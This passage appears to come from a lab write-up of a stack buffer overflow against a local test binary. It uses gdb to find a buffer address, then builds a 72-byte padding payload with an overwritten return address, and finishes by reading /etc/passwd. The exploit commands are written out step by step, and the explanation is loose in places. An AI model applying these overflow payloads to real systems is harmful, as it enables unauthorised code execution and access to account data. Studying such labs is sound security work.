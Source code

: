 ## 5. Load redundant_code  to gdb

```bash
gdb ./redundant_code
```
You need to find the address of the `redundant_code` binary in memory. This address will be used in the exploit string to redirect execution to the payload. To do this, you can use a debugger like `gdb`:
## 6. Finding the Address of the Payload


```bash
break redundant_code
run $(python -c "print('A'*72)")
p &buffer
```

![image](https://github.com/user-attachments/assets/1c2622c2-8880-49e1-8d64-32e16e20a848)


Inside `gdb`, set a breakpoint in the `redundant_code`, run the program with a dummy argument, and find the address of your payload. This will typically be after the buffer size.

Make a note of the address is `0xf7fcc5b4`; you'll use it in the next step.

## 7. Execute the Vulnerable Program with the Payload

Run the vulnerable program with the crafted payload:

```bash
./redundant_code "$(python -c "print('a'*72 + '\xb4\xc5\xfc\xf7')")"
```

Generated a string of 72 'a' characters followed by a byte sequence intended to manipulate the program's execution flow. The output resulted in a "Segmentation fault (core dumped)," confirming the presence of a buffer overflow vulnerability in the redundant_code program.

## 8. Verify the Output

```bash
cat /etc/passwd
```

![image](https://github.com/user-attachments/assets/ef6984a4-6a33-45d3-80b7-aae79745d59f)


The command cat /etc/passwd is useful for viewing user account information on a Linux or Unix system.  

```bash
cat /tmp/outfile
```


![image](https://github.com/user-attachments/assets/56fa25ea-0a95-44ba-a009-1a78bd406e6a)

